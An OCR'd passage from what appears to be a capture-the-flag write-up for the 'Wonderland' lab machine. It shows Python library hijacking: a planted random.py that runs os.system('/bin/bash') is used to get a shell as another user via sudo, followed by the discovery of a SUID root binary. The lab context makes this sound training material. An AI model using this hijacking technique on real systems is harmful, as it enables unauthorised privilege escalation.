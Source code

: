 ```python
But answer came there none —
And that was scarcely odd, because
They’d eaten every one."""

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```


The ```import random``` library path is relative as it looks in the script directory before checking the paths that the version of Linux/Ubuntu has configured out of the box. I checked to see which version of python was installed under /usr/lib/ and saw python3.6 - which matches the sudo command earlier. I found [an article](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) on Python Library Hijacking and used the command:
```bash
$python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python36.zip
/usr/lib/python3.6
/usr/lib/python3.6/lib-dynload
/usr/local/lib/python3.6/dist-packages
/usr/lib/python3/dist-packages
``` 

```bash
$ find / -type f -name random.py 2>/dev/null
/usr/lib/python3.6/random.py
```
After creating a new random.py in Alice's home directory, we want it to run a shell as user Rabbit when executed in the root python script.

```python
import os
os.system("/bin/bash")
```
We could also use pty for this. 

```bash
$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```
Looking at rabbit's home directory we see an ELF file owned by root with SUID permissions.

```bash
rabbit@wonderland:/home/rabbit$ ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sun, 21 Feb 2021 20:44:57 +0000
Ask very nicely, and I will give you some tea while you wait for him
```
